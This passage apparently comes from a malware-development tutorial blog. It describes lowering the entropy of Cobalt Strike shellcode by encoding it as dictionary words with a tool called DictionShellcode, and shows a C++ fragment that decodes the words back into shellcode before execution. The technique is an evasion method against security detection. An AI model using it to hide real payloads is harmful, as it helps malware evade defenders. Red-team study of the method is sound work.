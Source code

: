 Here's a screenshot from my presentation slides showing 2 different Cobalt Strike payloads w/ XOR encrypted shellcode that have very high Shannon entropy (note that 8 is the max, 0 is the min). I used the [Shannon-Entropy.py](https://gist.github.com/wsummerhill/a5a2068e717b5c290ab345c05ef99fcc) script on my Gist to calculate this.

<img src="/assets/images/maldev101/cs-entropy-payloads.png" alt="High entropy payloads" width="800"/>

To reduce entropy of our payloads, I created a technique to encode shellcode into dictionary words using **[DictionShellcode](https://github.com/wsummerhill/DictionShellcode)**.
The tool will create a translation dictionary `translate_dict` variable which acts as a lookup table to decode dictionary words to their byte value equivalent.

The tool Git repo explains it more, but ultimately we can implment this shellcode encoding method to reduce entropy in all sections of our PE file payloads.
Here's an example of the decoding routie for a C++ payload using dictionary encoded shellcode:

**DictionShellcode example usage**<br />
`python DictionShellcode.py -f calc-x64.bin -lang cpp`<br />
Take output from the Python tool above and put it into the below payload sample (provided in the Git repo).

**Payload sample in C++**
```cpp
// Shellcode translation dictionary
const char* translate_dict[256] = { "discipline","disorder","hypothetical","information","researcher","mostly","offered","pleasant","doctrine","freeware","fighters","processors","independence","indicating","trackbacks","bizrate",.............,"counters","compact","locking","spirituality","copying" };

// Shellcode in Dictionary words format
const char* dict_words[276] = { "compact","superior","secretary","relationships","stated","incorporate","insured","discipline","discipline","discipline","restrict","replace","restrict","emission","resistance","replace","shareware","superior","instant","organisations","hospitals","superior","seconds","resistance","brochures","superior",
"resistance","believed",...........,"hospitals","discipline" };

// Converted shellcode placeholder
unsigned char shellcode[276]; // Same length as `dict_words` var
unsigned int shellcode_len = sizeof(shellcode);

// Decode shellcode using input Dictionary wordlist "translate_dict"
for (int sc_index = 0; sc_index < shellcode_len; sc_index++) // Loop through shellcode words first
{
    for (int dict_index = 0; dict_index < 256; dict_index++) // Loop through all possible dictionary words second
    {
        // If the word was found in the shellcode Dictionary
        if (strcmp(translate_dict[dict_index], dict_words[sc_index]) == 0 ) {
            // Convert shellcode to byte and add to output variable
            shellcode[sc_index] = dict_index;
            break;
        }
    }
}

// Continue allocating and executing shellcode from `shellcode` variable...
```
